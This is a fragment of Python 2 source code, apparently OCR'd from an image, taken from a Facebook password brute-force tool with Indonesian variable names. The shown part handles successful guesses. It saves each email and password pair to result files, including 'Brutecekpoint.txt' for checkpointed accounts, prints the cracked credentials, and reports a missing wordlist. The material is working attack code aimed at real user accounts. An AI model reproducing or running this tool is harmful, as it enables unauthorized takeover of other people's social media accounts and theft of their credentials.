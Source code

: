                         dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\033[1;97m[+] \033[1;97mFounded.'
                        print 52 * '\033[1;97m\xe2\x95\x90'
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[1;97m[+] \033[1;97mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"
                            print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[1;97m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\033[1;97m[!] File not found...'
            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
